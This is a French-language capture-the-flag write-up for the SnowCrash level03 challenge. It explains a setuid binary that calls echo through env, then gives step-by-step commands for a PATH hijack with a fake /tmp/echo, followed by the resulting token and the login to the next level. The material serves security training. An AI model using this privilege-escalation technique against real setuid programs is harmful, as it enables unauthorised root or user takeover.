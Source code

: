# README - Exploitation de la vulnérabilité du binaire level03

## Étapes suivies pour obtenir le Flag03

### 1. Identification du binaire

Le fichier `level03` est un exécutable avec les permissions **setuid** et **setgid**, ce qui signifie qu'il s'exécute avec les privilèges de l'utilisateur `flag03` :

```bash
level03@SnowCrash:~$ ls -l
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

### 2. Analyse du fichier exécutable

En analysant le fichier avec la commande `strings`, on observe un appel à la commande suivante :

```bash
/usr/bin/env echo Exploit me
```

Cela indique que le programme utilise `env` pour trouver et exécuter la commande `echo`. Cela peut être exploitable via un **PATH hijacking**.

### 3. Création d'un faux binaire "echo"

Nous allons créer un fichier `echo` dans un répertoire que nous contrôlons (par exemple `/tmp`) pour exécuter une commande malveillante permettant d'obtenir le flag.

#### a. Création du faux binaire

Créez un fichier `echo` qui exécute la commande `getflag` :

```bash
echo "/bin/sh -c 'getflag'" > /tmp/echo
chmod +x /tmp/echo
```

#### b. Modification du PATH

Modifiez la variable `PATH` pour que le répertoire `/tmp` soit prioritaire :

```bash
export PATH=/tmp:$PATH
```

### 4. Exécution de level03

Lancez l'exécutable `level03` :

```bash
./level03
```

Puisque le binaire `level03` utilise `env` pour appeler `echo`, il trouvera notre faux binaire dans `/tmp` et exécutera la commande `getflag` avec les privilèges de `flag03`.

### 5. Récupération du flag

Si tout fonctionne correctement, vous obtiendrez le flag :

```bash
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

### 6. Passage à l'utilisateur suivant

Utilisez le flag pour vous connecter à l'utilisateur `level04` :

```bash
level03@SnowCrash:~$ su level04
Password: qi0maab88jeaj46qoumi7maus
level04@SnowCrash:~$ 
```